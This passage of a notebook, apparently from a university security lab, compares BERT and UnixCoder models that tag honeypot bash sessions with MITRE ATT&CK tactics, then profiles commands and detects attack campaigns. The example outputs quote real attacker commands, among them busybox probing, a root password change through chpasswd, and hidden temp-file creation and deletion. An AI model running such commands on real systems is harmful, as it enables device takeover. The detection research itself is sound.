        bert_results['metrics']['token_recall'] * 100,
        naked_bert_results['metrics']['token_recall'] * 100,
        unix_results['metrics']['token_recall'] * 100,
        frozen_results['metrics']['token_recall'] * 100,
        headonly_results['metrics']['token_recall'] * 100,
    ],
    'F1 (Macro)': [
        bert_results['metrics']['token_f1'] * 100,
        naked_bert_results['metrics']['token_f1'] * 100,
        unix_results['metrics']['token_f1'] * 100,
        frozen_results['metrics']['token_f1'] * 100,
        headonly_results['metrics']['token_f1'] * 100,
    ],
    'Session Fidelity': [
        bert_results['session_fidelity'] * 100,
        naked_bert_results['session_fidelity'] * 100,
        unix_results['session_fidelity'] * 100,
        frozen_results['session_fidelity'] * 100,
        headonly_results['session_fidelity'] * 100,
    ],
    'Validation Macro F1': [
        bert_best_entry['val_macro_f1'] * 100,
        naked_bert_val_f1_scores[naked_bert_best_epoch] * 100,
        unix_best_entry['val_macro_f1'] * 100,
        frozen_best_entry['val_macro_f1'] * 100,
        headonly_best_entry['val_macro_f1'] * 100,
    ],
}
comparison_df = pd.DataFrame(performance_data)

total_parameter_counts = [
    sum(parameter.numel() for parameter in model.parameters())
    for model in model_objects
]
trainable_parameter_counts = [
    sum(
        parameter.numel()
        for parameter in model.parameters()
        if parameter.requires_grad
    )
    for model in model_objects
]

efficiency_data = {
    'Model': model_labels,
    'Loss': [
        'standard',
        'standard',
        UNIX_LOSS,
        best_full_loss_name,
        best_full_loss_name,
    ],
    'Base LR': [
        BERT_LR,
        NAKED_BERT_LR,
        UNIX_LR,
        frozen_best_entry['learning_rate'],
        headonly_best_entry['learning_rate'],
    ],
    'Head LR': [
        bert_best_entry['head_learning_rate'],
        NAKED_BERT_LR,
        UNIX_HEAD_LR,
        frozen_best_entry['head_learning_rate'],
        headonly_best_entry['head_learning_rate'],
    ],
    'Trainable Parameters': trainable_parameter_counts,
    'Trainable (%)': [
        100 * trainable / total
        for trainable, total in zip(
            trainable_parameter_counts,
            total_parameter_counts,
        )
    ],
    'Epochs Run': [
        bert_best_entry['epochs_ran'],
        len(naked_bert_train_losses),
        unix_best_entry['epochs_ran'],
        frozen_best_entry['epochs_ran'],
        headonly_best_entry['epochs_ran'],
    ],
    'Selected Epoch': [
        bert_best_epoch + 1,
        naked_bert_best_epoch + 1,
        unix_best_epoch + 1,
        frozen_best_epoch + 1,
        headonly_best_epoch + 1,
    ],
    'Training Time (s)': [
        bert_train_time,
        naked_bert_train_time,
        unix_train_time,
        frozen_time,
        headonly_time,
    ],
}
efficiency_df = pd.DataFrame(efficiency_data)

print("\nTest performance and validation score:")
display(
    comparison_df.style.format({
        column: '{:.2f}'
        for column in comparison_df.columns
        if column != 'Model'
    })
)

print("\nTraining configuration and computational cost:")
display(
    efficiency_df.style.format({
        'Base LR': '{:.1e}',
        'Head LR': '{:.1e}',
        'Trainable Parameters': '{:,.0f}',
        'Trainable (%)': '{:.2f}',
        'Training Time (s)': '{:.1f}',
    })
)



MODEL COMPARISON SUMMARY

Test performance and validation score:


,Model,Accuracy,Macro Precision,Macro Recall,F1 (Macro),Session Fidelity,Validation Macro F1
0,BERT Pretrained,84.76,75.68,56.51,61.97,79.97,73.23
1,Naked BERT,73.95,67.68,41.08,44.17,75.06,56.53
2,UnixCoder,87.10,86.63,68.80,73.50,86.29,79.88
3,UnixCoder Frozen (Last2+Head),83.89,75.36,61.11,64.85,83.05,72.24
4,UnixCoder Frozen (Head Only),76.98,68.13,48.50,52.57,76.34,59.41



Training configuration and computational cost:


,Model,Loss,Base LR,Head LR,Trainable Parameters,Trainable (%),Epochs Run,Selected Epoch,Training Time (s)
0,BERT Pretrained,standard,1.0e-05,5.0e-05,"108,897,031",100.00,40,20,761.0
1,Naked BERT,standard,5.0e-05,5.0e-05,"108,897,031",100.00,40,13,764.0
2,UnixCoder,standard,2.0e-05,1.0e-04,"125,344,519",100.00,40,11,686.5
3,UnixCoder Frozen (Last2+Head),standard,5.0e-05,2.5e-04,"14,181,127",11.31,40,16,349.0
4,UnixCoder Frozen (Head Only),standard,1.0e-03,1.0e-03,"5,383",0.00,40,21,285.9


Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task3_plots/model_comparison.png




In [76]:
# --- Plot comparison with report-readable horizontal labels ---
fig, axs = plt.subplots(3, 1, figsize=(11, 12), sharey=True)

models = comparison_df['Model'].tolist()
y = np.arange(len(models))
colors = ['#2E86C1', '#E74C3C', '#27AE60', '#9B59B6', '#F39C12']
metrics_to_plot = [
    ('Accuracy', 'Token Accuracy', 'Accuracy (%)'),
    ('F1 (Macro)', 'Macro F1 Score', 'F1 Score (%)'),
    ('Session Fidelity', 'Session Fidelity', 'Fidelity (%)'),
]

for ax, (column, title, xlabel) in zip(axs, metrics_to_plot):
    values = comparison_df[column].to_numpy()
    bars = ax.barh(y, values, color=colors, edgecolor='black')
    ax.set_yticks(y)
    ax.set_yticklabels(models, fontsize=PLOT_TICK_SIZE)
    ax.set_xlim(0, 100)
    ax.set_xlabel(xlabel, fontsize=PLOT_LABEL_SIZE)
    ax.set_title(title, fontsize=PLOT_TITLE_SIZE)
    ax.grid(True, linestyle='--', alpha=0.7, axis='x')
    ax.invert_yaxis()
    format_report_axes(ax)

    for bar, value in zip(bars, values):
        ax.text(
            min(value + 1.0, 97.0),
            bar.get_y() + bar.get_height() / 2,
            f'{value:.1f}',
            va='center',
            fontsize=PLOT_ANNOTATION_SIZE,
        )

fig.suptitle('Model Comparison', fontsize=PLOT_TITLE_SIZE, y=1.01)
plt.tight_layout(rect=[0, 0, 1, 0.99])
save_plot(fig, 'model_comparison', path=save_dir)
plt.show()

## Task 4 — Inference

Use the best fine-tuned model (with word truncation applied) on `cyberlab.csv` for inference.

**Key Constraints:**
- **Word-Level Tagging:** Use the prediction of the **first token** of a word to tag the entire word.
- **Truncated Sessions:** Only consider Bash words that received a prediction.

In [77]:
# --- Create directory for plots ---
save_dir = results_path + 'images/' + 'task4_plots/'
os.makedirs(save_dir, exist_ok=True)

# --- Load the required inference dataset ---
from shutil import copyfileobj
from zipfile import ZipFile

candidate_files = [
    Path(data_path) / 'cyberlab.csv',
    Path(project_path) / 'lab' / 'data' / 'datasets' / 'cyberlab.csv',
    Path(project_path) / 'data' / 'cyberlab.csv',
]
dataset_file = next((path for path in candidate_files if path.exists()), None)

if dataset_file is None:
    archive_candidates = [
        Path(project_path) / 'lab' / 'data' / 'datasets.zip',
        Path(project_path) / 'data' / 'datasets.zip',
    ]
    archive_file = next(
        (path for path in archive_candidates if path.exists()),
        None,
    )
    if archive_file is not None:
        destination = Path(data_path) / 'cyberlab.csv'
        destination.parent.mkdir(parents=True, exist_ok=True)
        with ZipFile(archive_file) as archive:
            members = [
                name for name in archive.namelist()
                if Path(name).name == 'cyberlab.csv'
            ]
            if len(members) != 1:
                raise FileNotFoundError(
                    f"Expected one cyberlab.csv in {archive_file}, "
                    f"found {len(members)}."
                )
            print(
                f"Extracting {members[0]} from {archive_file} "
                f"to {destination}..."
            )
            with archive.open(members[0]) as source, destination.open('wb') as target:
                copyfileobj(source, target)
        dataset_file = destination

if dataset_file is None or not dataset_file.exists():
    raise FileNotFoundError(
        "The official cyberlab.csv inference dataset was not found. "
        "Place it in lab/data/datasets/ or keep lab/data/datasets.zip "
        "available for automatic extraction."
    )

cyberlab_df = pd.read_csv(dataset_file)
print(f"Loaded inference dataset from: {dataset_file}")

required_columns = {'session', 'timestamps_statements'}
missing_columns = required_columns.difference(cyberlab_df.columns)
if missing_columns:
    raise ValueError(
        "cyberlab.csv is missing required columns: "
        f"{sorted(missing_columns)}"
    )

parsed_timestamp = pd.to_datetime(
    cyberlab_df['timestamps_statements'],
    errors='coerce',
    utc=True,
).dt.tz_localize(None)

missing_timestamps = int(parsed_timestamp.isna().sum())
if missing_timestamps:
    raise ValueError(
        f"{missing_timestamps:,} cyberlab sessions have invalid timestamps; "
        "the required fingerprint timeline cannot be constructed reliably."
    )

cyberlab_df['parsed_timestamp'] = parsed_timestamp
cyberlab_df['date'] = cyberlab_df['parsed_timestamp'].dt.date

print(
    "Timestamp column: 'timestamps_statements' "
    f"({len(cyberlab_df):,}/{len(cyberlab_df):,} parsed)."
)
print(f"Date range: {cyberlab_df['date'].min()} to {cyberlab_df['date'].max()}")
print(f"Cyberlab dataset contains {len(cyberlab_df):,} sessions")
cyberlab_df.head()

Loaded inference dataset from: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/data/cyberlab.csv
Timestamp column: 'timestamps_statements' (174,262/174,262 parsed).
Date range: 2019-09-01 to 2019-12-30
Cyberlab dataset contains 174,262 sessions


,session,timestamps_statements,country_name,parsed_timestamp,date
0,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:00:10.493808+00:00,Israel,2019-09-01 00:00:10.493808,2019-09-01
1,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:38:41.134935+00:00,Israel,2019-09-01 00:38:41.134935,2019-09-01
2,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:39:26.263383+00:00,Israel,2019-09-01 00:39:26.263383,2019-09-01
3,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:40:45.132152+00:00,Israel,2019-09-01 00:40:45.132152,2019-09-01
4,enable ; system ; shell ; sh ; cat /proc/mount...,2019-09-01 00:54:51.783935+00:00,Israel,2019-09-01 00:54:51.783935,2019-09-01


### 4.1 Inference with Best Model

Apply the best model to predict MITRE tactics for each word in the cyberlab sessions.

**Note:** We use the first token's prediction to tag the entire word.

In [78]:
# --- Select the best fine-tuned model for inference using validation data only ---
def evaluate_validation_metrics(model, dataloader, device, id2label):
    """Compute validation metrics without consulting test-set results."""
    model = model.to(device)
    model.eval()
    full_predictions, full_labels = [], []

    for batch in dataloader:
        batch = {key: value.to(device) for key, value in batch.items()}
        with torch.no_grad():
            outputs = model(**batch)

        predictions = outputs.logits.argmax(dim=-1)
        true_predictions, true_labels = postprocess(
            predictions, batch['labels'], id2label
        )
        full_predictions.extend(true_predictions)
        full_labels.extend(true_labels)

    return compute_metrics(full_predictions, full_labels)


model_candidates = {
    'BERT Pretrained': {
        'model': bert_best_model,
        'tokenizer': bert_tokenizer,
        'validation_loader': bert_eval_dataloader,
    },
    'UnixCoder': {
        'model': unix_best_model,
        'tokenizer': unixcoder_tokenizer,
        'validation_loader': unix_eval_dataloader,
    },
    frozen_model_label: {
        'model': frozen_best_model,
        'tokenizer': best_full_tokenizer,
        'validation_loader': best_full_eval_dataloader,
    },
    headonly_model_label: {
        'model': headonly_best_model,
        'tokenizer': best_full_tokenizer,
        'validation_loader': best_full_eval_dataloader,
    },
}

validation_selection_rows = []
for model_name, candidate in model_candidates.items():
    validation_metrics = evaluate_validation_metrics(
        candidate['model'], candidate['validation_loader'], device, id2label
    )
    candidate['validation_metrics'] = validation_metrics
    validation_selection_rows.append({
        'Model': model_name,
        'Validation Accuracy': validation_metrics['token_accuracy'],
        'Validation Macro F1': validation_metrics['token_f1'],
        'Validation Macro Precision': validation_metrics['token_precision'],
        'Validation Macro Recall': validation_metrics['token_recall'],
    })

validation_selection_df = pd.DataFrame(validation_selection_rows).sort_values(
    by=['Validation Macro F1', 'Validation Accuracy'],
    ascending=[False, False],
).reset_index(drop=True)

best_model_name = validation_selection_df.loc[0, 'Model']
best_model = model_candidates[best_model_name]['model']
best_tokenizer = model_candidates[best_model_name]['tokenizer']

print('Model selection for inference (validation set only):')
display(validation_selection_df)
print(
    f"Selected best model for inference: {best_model_name} | "
    f"validation macro F1="
    f"{validation_selection_df.loc[0, 'Validation Macro F1']:.4f}"
)

Model selection for inference (validation set only):


,Model,Validation Accuracy,Validation Macro F1,Validation Macro Precision,Validation Macro Recall
0,UnixCoder,0.916847,0.798815,0.835119,0.802218
1,BERT Pretrained,0.912831,0.732319,0.776571,0.740858
2,UnixCoder Frozen (Last2+Head),0.885714,0.722407,0.768987,0.705379
3,UnixCoder Frozen (Head Only),0.811232,0.594139,0.733887,0.565662


Selected best model for inference: UnixCoder | validation macro F1=0.7988


In [79]:
# --- Inference utilities with batch support ---

def _truncate_tokens(tokens, max_word_len=30):
    """Truncate long words to keep consistency with training preprocessing."""
    return [tok[:max_word_len] if len(tok) > max_word_len else tok for tok in tokens]

def _align_word_level_predictions(pred_ids, word_ids, words, id2label):
    """Convert token-level predictions to word-level predictions using first sub-token only."""
    word_predictions = []
    seen_word_ids = set()

    for token_idx, word_id in enumerate(word_ids):
        if word_id is None or word_id in seen_word_ids:
            continue
        if word_id >= len(words):
            continue

        predicted_label = id2label[pred_ids[token_idx]]
        word_predictions.append((words[word_id], predicted_label))
        seen_word_ids.add(word_id)

    return word_predictions

def predict_sessions_batched(
    model,
    tokenizer,
    session_texts,
    device,
    id2label,
    max_word_len=30,
    batch_size=64,
    min_batch_size=8,
    verbose=True,
):
    """
    Predict MITRE tactics for many sessions with dynamic batching.
    If GPU memory is insufficient, the function automatically reduces batch size.
    """
    model.eval()
    clean_sessions = [
        _truncate_tokens(str(text).split(), max_word_len=max_word_len)
        for text in session_texts
    ]

    predictions_per_session = [[] for _ in clean_sessions]
    start_idx = 0
    effective_batch_size = max(1, int(batch_size))
    min_batch_size = max(1, int(min_batch_size))

    while start_idx < len(clean_sessions):
        end_idx = min(start_idx + effective_batch_size, len(clean_sessions))
        current_batch = clean_sessions[start_idx:end_idx]

        non_empty_positions = [pos for pos, words in enumerate(current_batch) if len(words) > 0]
        if not non_empty_positions:
            start_idx = end_idx
            continue

        words_for_tokenizer = [current_batch[pos] for pos in non_empty_positions]

        try:
            encoded = tokenizer(
                words_for_tokenizer,
                is_split_into_words=True,
                truncation=True,
                padding=True,
                max_length=512,
                return_tensors='pt',
            )
            word_ids_per_session = [encoded.word_ids(batch_index=i) for i in range(len(words_for_tokenizer))]
            encoded = {k: v.to(device) for k, v in encoded.items()}

            with torch.no_grad():
                logits = model(**encoded).logits

            pred_ids = logits.argmax(dim=-1).cpu().numpy()

            for local_idx, original_position in enumerate(non_empty_positions):
                global_idx = start_idx + original_position
                predictions_per_session[global_idx] = _align_word_level_predictions(
                    pred_ids[local_idx],
                    word_ids_per_session[local_idx],
                    current_batch[original_position],
                    id2label,
                )

            start_idx = end_idx

        except RuntimeError as exc:
            oom_error = 'out of memory' in str(exc).lower()
            can_reduce = effective_batch_size > min_batch_size

            if oom_error and can_reduce:
                new_batch_size = max(min_batch_size, math.ceil(effective_batch_size / 2))
                if verbose:
                    print(f"Warning: OOM with batch_size={effective_batch_size}. Retrying with batch_size={new_batch_size}.")
                effective_batch_size = new_batch_size
                if torch.cuda.is_available():
                    torch.cuda.empty_cache()
                continue

            raise

    return predictions_per_session

def predict_session(model, tokenizer, session_text, device, id2label, max_word_len=30):
    """Backward-compatible wrapper for single-session prediction."""
    return predict_sessions_batched(
        model=model,
        tokenizer=tokenizer,
        session_texts=[session_text],
        device=device,
        id2label=id2label,
        max_word_len=max_word_len,
        batch_size=1,
        min_batch_size=1,
        verbose=False,
    )[0]

In [80]:
# --- Validate the official inference schema ---
print("Cyberlab columns:", cyberlab_df.columns.tolist())
session_column = 'session'
print(f"Using required column '{session_column}' for sessions")


Cyberlab columns: ['session', 'timestamps_statements', 'country_name', 'parsed_timestamp', 'date']
Using required column 'session' for sessions


In [81]:
# --- Run inference on all sessions (batched) ---
inference_results = []

best_model.eval()
best_model = best_model.to(device)

session_texts = cyberlab_df[session_column].astype(str).tolist()
date_source_cols = [
    col for col in ['parsed_timestamp', 'timestamps_statements', 'date', 'timestamp', 'datetime', 'time']
    if col in cyberlab_df.columns
]
date_source_col = date_source_cols[0] if date_source_cols else None

batch_predictions = predict_sessions_batched(
    model=best_model,
    tokenizer=best_tokenizer,
    session_texts=session_texts,
    device=device,
    id2label=id2label,
    max_word_len=30,
    batch_size=64,
    min_batch_size=8,
    verbose=True,
)

for idx, (session_text, predictions) in enumerate(
    tqdm(zip(session_texts, batch_predictions), total=len(session_texts), desc="Building inference records")
):
    fingerprint = tuple(pred_tag for _, pred_tag in predictions)
    row = cyberlab_df.iloc[idx]

    inference_results.append({
        'index': idx,
        'session': session_text,
        'words': [word for word, _ in predictions],
        'predictions': [pred_tag for _, pred_tag in predictions],
        'fingerprint': fingerprint,
        'date': row[date_source_col] if date_source_col else None,
    })

print(f"\nInference completed for {len(inference_results):,} sessions")
if date_source_col:
    print(f"Date source column used: '{date_source_col}'")
else:
    print("Date source column not found; dates will be synthesized in the next step.")

Building inference records:   0%|          | 0/174262 [00:00<?, ?it/s]


Inference completed for 174,262 sessions
Date source column used: 'parsed_timestamp'


### 4.2 Command Profiling

**Instructions:**
- Focus on: `cat`, `grep`, `echo`, `rm`
- Report tag frequency for each command in a table.
- Provide 1 example session for each unique tuple (command, predicted tag).

**Q:** What tactics are most commonly associated with these commands?

The command-level predictions are not always one-to-one with a single tactic. `grep` is almost uniquely associated with **Discovery (99.97%)**, which is expected because it is commonly used to inspect system information. `cat` is mostly **Discovery (84.07%)**, but also appears as **Execution (15.93%)** when it participates in payload or script execution chains. `rm` is mainly **Discovery (72.14%)** and **Execution (23.92%)**, with smaller shares of `Defense Evasion` and `Persistence`. `echo` is the most mixed command: **Persistence (42.67%)**, **Discovery (33.01%)**, and **Execution (24.29%)**. This confirms that command meaning depends strongly on context rather than on the command token alone.


In [82]:
# --- Command profiling with token normalization ---
target_commands = ['cat', 'grep', 'echo', 'rm']

command_tag_data = {cmd: Counter() for cmd in target_commands}
command_tag_examples = {cmd: {} for cmd in target_commands}

def _normalize_command_token(token):
    """Normalize tokens so '/bin/cat', 'cat;', and similar forms map to base command names."""
    value = str(token).strip().lower()
    value = value.strip('"\'`')
    value = re.sub(r'^[^a-z0-9/_\.-]+|[^a-z0-9/_\.-]+$', '', value)

    if not value:
        return None

    value = os.path.basename(value)
    value = value.split('=')[-1]
    return value if value in target_commands else None

for result in inference_results:
    session_preview = str(result['session'])[:220]
    for word, tag in zip(result['words'], result['predictions']):
        normalized_cmd = _normalize_command_token(word)
        if normalized_cmd is None:
            continue

        command_tag_data[normalized_cmd][tag] += 1
        if tag not in command_tag_examples[normalized_cmd]:
            command_tag_examples[normalized_cmd][tag] = session_preview

command_tag_rows = []
for cmd in target_commands:
    cmd_total = sum(command_tag_data[cmd].values())
    for tag, count in command_tag_data[cmd].most_common():
        command_tag_rows.append({
            'Command': cmd,
            'Predicted Tag': tag,
            'Count': count,
            'Frequency (%)': round((count / cmd_total) * 100, 2) if cmd_total else 0.0,
        })

if command_tag_rows:
    command_tag_df = pd.DataFrame(command_tag_rows)
    command_tag_df = command_tag_df.sort_values(['Command', 'Count'], ascending=[True, False]).reset_index(drop=True)
    print("Command-Tag Frequency Table:")
    print(command_tag_df.to_string(index=False))
else:
    print("Command-Tag Frequency Table is empty. No matching commands were found.")

Command-Tag Frequency Table:
Command     Predicted Tag  Count  Frequency (%)
    cat         Discovery 724370          84.07
    cat         Execution 137283          15.93
    cat Not Malicious Yet      1           0.00
   echo       Persistence 327076          42.67
   echo         Discovery 252994          33.01
   echo         Execution 186177          24.29
   echo             Other    190           0.02
   echo            Impact      1           0.00
   grep         Discovery 996075          99.97
   grep       Persistence    302           0.03
     rm         Discovery 248848          72.14
     rm         Execution  82502          23.92
     rm   Defense Evasion   8180           2.37
     rm       Persistence   5442           1.58


In [83]:
# --- Display one example session for each (command, tag) tuple ---
print("\nExample Sessions for Each (Command, Tag) Pair:")
print("=" * 90)

for cmd in target_commands:
    print(f"\n{cmd.upper()} examples:")
    print("-" * 90)

    examples_for_command = command_tag_examples.get(cmd, {})
    if not examples_for_command:
        print("  No matching sessions found.")
        continue

    for tag, example in sorted(examples_for_command.items()):
        print(f"  Tag: {tag}")
        print(f"  Session: {example}...")
        print()


Example Sessions for Each (Command, Tag) Pair:

CAT examples:
------------------------------------------------------------------------------------------
  Tag: Discovery
  Session: enable ; system ; shell ; sh ; cat /proc/mounts; /bin/busybox TIPZU ; cd /dev/shm; cat .s || cp /bin/echo .s; /bin/busybox TIPZU ; tftp; wget; /bin/busybox TIPZU ; dd bs=52 count=1 if=.s || cat .s || while read i; do ech...

  Tag: Execution
  Session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:XP3IUReH9hhH"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name |...

  Tag: Not Malicious Yet
  Session: cat /etc/issue...


GREP examples:
------------------------------------------------------------------------------------------
  Tag: Discovery
  Session: cat /proc/cpuinfo | grep name | wc -l ; echo "root:XP3IUReH9hhH"|chpasswd|bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; c

### 4.3 Fingerprinting & Campaign Detection

**Instructions:**
- Define fingerprint as the sequence of predicted MITRE Tactics for a session.
- Identify unique fingerprints in the inference set.
- Sort fingerprints by "date of birth" (first appearance).
- Assign an ID (0 to N) to fingerprints based on this sort order.
- Create a scatter plot (Time on X-axis vs. Fingerprint ID on Y-axis).

**Q:** Are there fingerprints that appear suddenly in large numbers, suggesting attack campaigns?

Yes. The inference set contains **174,262 sessions** and **1,905 unique fingerprints**, with **901 singleton fingerprints**, so there is both repeated behavior and a long tail of rare patterns. No fingerprint is literally present for the entire **121-day** observation window, but several are highly persistent: for example, fingerprint IDs **0**, **11**, and **3** remain active for **99**, **98**, and **96** days respectively. The scatter plot shows these persistent low-ID fingerprints near the bottom, while later high-volume bursts appear in December. The adaptive campaign detector finds **6 campaign spikes**. The strongest one is fingerprint **1594**, which reaches **1,736 sessions on 2019-12-09**, with related spikes on **2019-12-08** and **2019-12-10**. Another strong fingerprint is **293**, with more than **900 sessions/day** in the same period. These repeated high-volume fingerprints suggest coordinated or automated attack campaigns, while persistent fingerprints active for many days indicate recurring background attack behavior.


In [84]:
# --- Create inference results DataFrame ---
inference_df = pd.DataFrame(inference_results)

if 'date' not in inference_df.columns:
    raise ValueError("Inference records do not contain the required timestamps.")

inference_df['date'] = pd.to_datetime(
    inference_df['date'],
    errors='coerce',
    utc=True,
).dt.tz_localize(None)

missing_dates = int(inference_df['date'].isna().sum())
if missing_dates:
    raise ValueError(
        f"{missing_dates:,} inference records have invalid timestamps. "
        "No synthetic dates are generated."
    )

# Convert fingerprint to string for easier handling
inference_df['fingerprint_str'] = inference_df['fingerprint'].apply(
    lambda fingerprint: '|'.join(fingerprint) if fingerprint else 'EMPTY'
)

print(f"Total sessions: {len(inference_df):,}")
print(f"Unique fingerprints: {inference_df['fingerprint_str'].nunique():,}")
print(f"Date range: {inference_df['date'].min()} to {inference_df['date'].max()}")


Total sessions: 174,262
Unique fingerprints: 1,905
Date range: 2019-09-01 00:00:10.493808 to 2019-12-30 23:56:54.297736


In [85]:
# --- Assign fingerprint IDs based on first appearance (date of birth) ---
# Find the first occurrence date for each fingerprint
fingerprint_first_seen = inference_df.groupby('fingerprint_str')['date'].min().reset_index()
fingerprint_first_seen.columns = ['fingerprint_str', 'first_seen']

# Sort by first seen date and assign IDs
fingerprint_first_seen = fingerprint_first_seen.sort_values('first_seen').reset_index(drop=True)
fingerprint_first_seen['fingerprint_id'] = fingerprint_first_seen.index

# Merge back to main dataframe
inference_df = inference_df.merge(fingerprint_first_seen[['fingerprint_str', 'fingerprint_id']], on='fingerprint_str')

print(f"Fingerprint IDs assigned (0 to {fingerprint_first_seen['fingerprint_id'].max()})")
print(f"\nTop 10 most common fingerprints:")
print(inference_df['fingerprint_str'].value_counts().head(10))

Fingerprint IDs assigned (0 to 1904)

Top 10 most common fingerprints:
fingerprint_str
Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Persistence|Persistence|Discovery|Persistence|Persistence|Persistence|Persistence|Persistence|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery|Discovery

Saved plot: /content/drive/MyDrive/Projects/AImSecure/Laboratory4/results/images/task4_plots/fingerprint_scatter_plot.png


